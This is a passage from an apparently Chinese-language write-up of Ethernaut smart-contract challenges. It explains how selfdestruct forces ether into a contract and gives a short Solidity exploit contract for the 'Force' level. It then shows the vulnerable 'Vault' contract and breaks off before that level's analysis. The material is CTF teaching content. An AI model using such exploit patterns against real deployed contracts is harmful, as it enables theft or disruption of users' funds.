 ### 分析

没有任何代码的合约怎么接受eth？这里的话以太坊里我们是可以强制给一个合约发送eth的，不管它要不要它都得收下，这是通过selfdestruct函数来实现的，如它的名字所显示的，这是一个自毁函数，当你调用它的时候，它会使该合约无效化并删除该地址的字节码，然后它会把合约里剩余的资金发送给参数所指定的地址，比较特殊的是这笔资金的发送将无视合约的fallback函数，因为我们之前也提到了当合约直接收到一笔不知如何处理的eth时会触发fallback函数，然而selfdestruct的发送将无视这一点。

所以思路就是搞一个合约出来，然后自毁，强制给题目合约eth。

```solidity
contract Force {
    address payable levelInstance;

    constructor (address payable _levelInstance) public {
        levelInstance = _levelInstance;
    }

    function give() public payable {
        selfdestruct(levelInstance);
    }
}
```

## vault

### 题目

使得locked == false

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### 分析
